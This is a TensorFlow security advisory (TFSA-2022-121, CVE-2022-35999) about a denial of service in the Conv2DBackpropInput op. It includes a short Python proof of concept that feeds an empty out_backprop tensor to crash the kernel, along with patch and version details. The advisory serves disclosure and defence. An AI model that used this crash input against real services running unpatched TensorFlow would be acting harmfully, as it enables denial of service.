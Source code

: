 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-121.md
## TFSA-2022-121: `CHECK` fail in `Conv2DBackpropInput`

### CVE Number
CVE-2022-35999

### Impact
When `Conv2DBackpropInput` receives empty `out_backprop` inputs (e.g. `[3, 1, 0, 1]`), the current CPU/GPU kernels `CHECK` fail (one with dnnl, the other with cudnn). This can be used to trigger a denial of service attack.
```python
import tensorflow as tf
import numpy as np
input_sizes = [3, 1, 1, 2]
filter = np.ones([1, 3, 2, 3])
out_backprop = np.ones([3, 1, 0, 3])
strides = [1, 1, 2, 1]
padding = 'VALID'

tf.raw_ops.Conv2DBackpropInput(
   input_sizes = input_sizes,
   filter = filter,
   out_backprop = out_backprop,
   strides = strides,
   padding = padding
)
```

### Patches
We have patched the issue in GitHub commit [27a65a43cf763897fecfa5cdb5cc653fc5dd0346](https://github.com/tensorflow/tensorflow/commit/27a65a43cf763897fecfa5cdb5cc653fc5dd0346).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Jingyi Shi.
